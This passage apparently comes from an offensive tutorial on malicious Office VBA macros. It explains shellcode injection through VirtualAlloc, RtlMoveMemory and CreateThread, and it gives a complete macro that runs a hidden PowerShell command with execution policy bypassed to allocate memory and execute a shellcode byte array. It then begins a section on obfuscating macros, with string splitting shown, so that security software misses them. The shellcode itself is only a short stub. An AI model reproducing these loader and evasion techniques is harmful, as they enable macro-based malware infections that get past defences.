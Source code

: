 - **Explanation**:
  - **`VirtualAlloc`**: Allocates executable memory for the shellcode.
  - **`RtlMoveMemory`**: Moves the shellcode into the allocated memory.
  - **`CreateThread`**: Starts a new thread to execute the shellcode.
  
**Note**: This example shellcode is simplified for educational purposes. Actual shellcode can vary depending on the intended payload.

### 2. **Executing Shellcode via PowerShell from VBA**

VBA macros can also invoke PowerShell commands to execute shellcode. This technique leverages PowerShell’s ability to run dynamic content.

#### **VBA Macro: PowerShell Shellcode Execution**

```vba
Sub RunShellcodeWithPowerShell()
    Dim shellcode As String
    shellcode = "[Byte[]] $sc = 0xfc,0x48,0x83,0xe4,0xf0; " & _
                "$mem = [System.Runtime.InteropServices.Marshal]::AllocHGlobal($sc.Length); " & _
                "[System.Runtime.InteropServices.Marshal]::Copy($sc, 0, $mem, $sc.Length); " & _
                "$t = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer($mem, [System.Func[System.IntPtr]]); " & _
                "$t.Invoke()"

    ' Construct the PowerShell command
    Dim cmd As String
    cmd = "powershell -ExecutionPolicy Bypass -NoProfile -Command " & Chr(34) & shellcode & Chr(34)

    ' Run PowerShell with shellcode
    Shell cmd, vbHide
End Sub
```

- **Explanation**:
  - Shellcode is passed as a string of bytes to PowerShell.
  - PowerShell allocates memory using `[System.Runtime.InteropServices.Marshal]` and copies the shellcode into that allocated memory.
  - The shellcode is then executed using a delegate via `GetDelegateForFunctionPointer()`.

### 3. **Obfuscation Techniques**

Obfuscating macros makes it harder for security software to detect malicious actions. Below are a few techniques to obfuscate the VBA macro and PowerShell command.

#### **Obfuscating the VBA Macro**

1. **String Splitting**: Break strings into smaller parts.
```vba
Dim part1 As String, part2 As String
part1 = "calc"
part2 = ".exe"
Shell part1 & part2
```
